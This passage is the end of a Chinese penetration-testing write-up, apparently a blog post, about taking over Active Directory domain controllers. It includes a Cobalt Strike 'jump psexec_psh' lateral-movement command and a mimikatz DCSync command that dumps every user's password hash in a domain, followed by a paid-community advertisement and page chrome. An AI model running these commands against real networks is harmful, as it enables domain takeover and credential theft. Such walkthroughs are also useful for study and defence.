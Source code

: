     jump psexec_psh 10.10.1.10 smb  
    

至此成功上线三台域控

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133734.png)![]()![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133735.png)

后续继续用委派的票据获取其他几台域控的权限

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133736.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133737.png)

通过主域控直接dcsync dump，抓域内所有用户hash

    
    
    mimikatz.exe "privilege::debug" "lsadump::dcsync /domain:abc.com /all /csv  
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133738.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133739.png)

 **  
**

**从现在开始，星球定价150元！日后只有慢慢涨没有跌价！现在入股不亏，持续输出原创文章，还是小有干货的！**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20220228133740.png)

  

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看
